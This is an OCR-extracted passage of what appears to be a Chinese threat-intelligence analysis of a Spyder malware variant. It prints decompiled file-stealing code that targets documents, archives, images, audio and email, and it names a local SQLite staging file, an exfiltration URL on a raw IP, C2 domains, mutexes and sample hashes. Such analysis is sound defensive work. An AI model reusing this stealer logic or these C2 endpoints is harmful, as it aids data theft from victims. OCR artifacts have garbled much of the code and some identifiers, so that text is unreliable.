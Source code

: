while ( (unsigned int)RootPathName[0] $\mathbf{\Sigma}\quad\mathbf{\Sigma}<=\mathbf{\Sigma}^{\prime}\mathbf{\Sigma}^{\prime}\mathbf{Z}^{\prime}$ );  

窃密软件关注的文件类型包括文档、压缩包、图片、音频、电子邮件。  

if（lstrcmpw（FindFileData.cFileName,L".") &&lstrcmpW(FindFileData.cFileName,L". $v3=$ lstrlenw(v1); $\lor4=$ lstrlenw(FindFileData.cFileName); $v5~=$ (WCHAR \*)GlobaLAlloc(0x40u, $2^{\star}(\vee4+\vee3)+128);$ PathCombineW(v5,this, FindFileData.cFileName); if（（FindFileData.dwFileAttributes & Ox10) $\mathfrak{\xi}=~\Theta$ CollectFileInfo(v5); 1 else { Extensionw $=$ PathFindExtensionw(v5); if（!lstrcmpw(ExtensionW,L".pdf")) sub_1000135o(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw(Extenstonw,L".doc")) sub_10001350(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（Ilstrcmpw（Extensionw,L".docx"）） sub_10o01350(v5, FindFileData.ftLastWriteTime.dwLowDateTime); if（lstrcmpw（Extenstonw，Lxls)) sub_10001350(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw（Extensionw,L".xlsx"）） sub_10001350(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw（Extensionw,L.ppt"）） sub_1000135o(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw（Extensionw,L".pptx"）) sub_10001350(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw（Extensionw,L.zip")） sub_10001350(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw(Extensionw,L".png"）） sub_1000135o(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw（Extensionw，L.jpeg"）) sub_10001350(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw(Extensionw,L".opus")) sub_10o01350(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw(Extensionw,L".ogg")) sub_10o01350(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw(Extensionw,L".eml")) sub_10001350(v5,FindFileData.ftLastWriteTime.dwLowDateTime); if（!lstrcmpw(Extensionw,L".rar")) sub_10001350(v5,FindFileData.ftLastWriteTime.dwLowDateTime); FirstFileW =v9;  

文件信息存放在 SQLite 格式的本地数据库"%APPDATA%\Microsoft\Windows\Libraries\policy.db"中。  

![](https://cdn-mineru.openxlab.org.cn/extract/75eef432-8dd2-4be9-b9e5-abcf2e14a2ea/b48afbfd3b4bc9da3f33d8a723babb2db0c22da26f3f9a1603ff8fd2df4f72cd.jpg)  

最后将数据回传到"hxxp://93.95.230.16/domcomtwit/hen.php"。  

![](https://cdn-mineru.openxlab.org.cn/extract/75eef432-8dd2-4be9-b9e5-abcf2e14a2ea/cf4a11569ded6e86eb60841daaa6f6b5df6ef6a519d3fa6acc7e33565982d1c5.jpg)  

## ·溯源关联  

本次发现的 Spyder 变种仍具有以往 Spyder 样本[1,2l的诸多特征，包括：XOR 解密字符串;设置多个计划任务；以JSON字符串格式组织通信数据；先从C2服务器获取加密压缩包信息再下载压缩包并解密等。  

该 Spyder 变种关联到一些相似的样本，从程序创建时间可以看出此类变种至少从 3 月份开始投入使用。  

<html><body><table><tr><td>MD5</td><td>编译时间</td><td>C&C</td></tr><tr><td>887d76e305d1b2ac22a83a1418a9fc 57</td><td>2024-03-1414:47:01UTC</td><td>10p1.shop</td></tr><tr><td>47b4ed92cfc369dd11861862d377ae 26</td><td>2024-04-0514:09:32 UTC</td><td>firebaseupdater.com</td></tr><tr><td>0dc0816bd46f3fe696ed0a2f1b67cfa 8</td><td>2024-04-25 17:10:20 UTC</td><td>firebaseupdater.com</td></tr><tr><td>e8a9b75c5e41f6d4af9f32c11d0057c b</td><td>2024-04-25 17:10:20 UTC</td><td>firebaseupdater.com</td></tr></table></body></html>  

lstrcpyA(&g_struct_4C4668->str_version,"0.0.θ.1");   
V19 $=$ g_struct_4c4668;   
v11 $=$ lstrcpyw;   
g_struct_4C4668->dword14=0;   
lstrcpyw((LPWSTR)v19->wstr_host,L"lop1.shop");   
lstrcpyw(&g_struct_4c4668->wstr_url_dir,L"/ares/");   
lstrcpyw(&g_struct_4c4668->wstr_url_path,L"pencil.php");   
lstrcpyw(&g_struct_4C4668->wstr_mutex,L"na0U3bTZqsHR0FIe");   
v20 =g_struct_4c4668;   
g_struct_4c4668->sleep_time $=$ 4000;   
lstrcpyA((LPSTR)&v20->Char69C,"ZXF"); lstrcpyA(（LPSTR)（dword_458180+4)."1.0.0.1");   
\*（_DW0RD\*)（dword_458180+20) $=0$ lstrcpyW((LPWSTR)(dword_458180 $^+$ 24).L"firebaseupdater.com");   
lstrcpyW(（LPWSTR)(dword_458180 $^+$ 536),L"/gandalf/");   
lstrcpyW((LPWSTR)(dword_458180 $^{+}$ 1048),L"cane.php");   
lstrcpyW(（LPWSTR)(dword_458180+1564）,L"yXXUKLWPEKQWohto");   
\*（_DW0RD \*)（dword_458180 +1560) $=$ 4000;   
v112 $=$ lstrlenA(（LPCSTR)（dword_458180+ 4));  

